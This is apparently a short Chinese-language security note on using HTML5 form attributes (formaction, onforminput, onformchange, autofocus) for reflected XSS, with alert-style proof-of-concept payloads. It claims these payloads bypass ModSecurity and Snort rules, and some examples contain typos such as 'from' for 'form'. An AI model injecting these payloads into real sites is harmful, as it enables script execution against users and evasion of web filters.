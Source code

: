 ------
* 特性：HTML5中from出现新属性formaction onformchange onforminput autofocus 等
* 格式：
     `<form id="test">`<br>
       ` <input type="submit" name="name"  value="提交" formmethod="get" formaction="javascript:alert(1)" >xss`<br>
     `</form>`
     
------
安全性：可用于反射型XSS攻击；<br>
        例如formaction属性 可直接标记按钮button 外部劫持表单;绕过modesecurity和snort的规则检测
        
------
典例：
       `<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>`<br>
      ` <form id="test" onforminput=alert(1)><input></from><button from=test onfromchange=alert(2)>x</button>`<br>
       `<input onfocus=write(1) autofocus>`<br>
       等等，不一一类聚，formaction onformchange onforminput autofocus基本都存在规则或者黑名单的漏洞。
